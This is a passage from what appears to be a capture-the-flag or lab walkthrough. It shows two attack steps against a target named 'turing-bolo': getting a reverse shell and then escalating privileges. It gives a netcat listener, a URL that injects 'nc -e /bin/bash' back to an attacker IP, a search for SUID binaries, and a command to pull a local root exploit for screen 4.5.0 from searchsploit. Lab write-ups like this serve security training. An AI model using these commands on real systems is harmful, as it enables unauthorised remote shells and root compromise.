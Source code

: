 
### Step 8: Establishing a Reverse Shell

**On Attacker (Kali):**

```
nc -nlvp 5566
```

- `n`: no DNS
- `l`: listen mode
- `v`: verbose
- `p`: specify port

**Image:**\


**In Browser:**

```
http://192.168.1.8/turing-bolo/bolo.php?bolo=/var/log/mail&cmd=nc -e /bin/bash 192.168.0.145 5566
```

**Image:**\


**Why This Works:**

- Target connects back to attacker
- `-e /bin/bash`: executes bash shell
- Must match the attacker’s listening port

**Image:**\


---

### Step 9: Privilege Escalation

**Command:**

```
find / -perm -u=s 2>/dev/null
```

**Goal:** Find binaries that can be exploited with root privileges.

**Compare with Kali:** If a binary exists on target but not Kali, investigate it.

**Found Binary:** `/bin/screen-4.5.0`

**Check for Vulnerability:**

```
searchsploit screen 4.5.0
```

**Image:**\


**Download Exploit:**

```
searchsploit -m exploits/linux/local/41154.sh
```
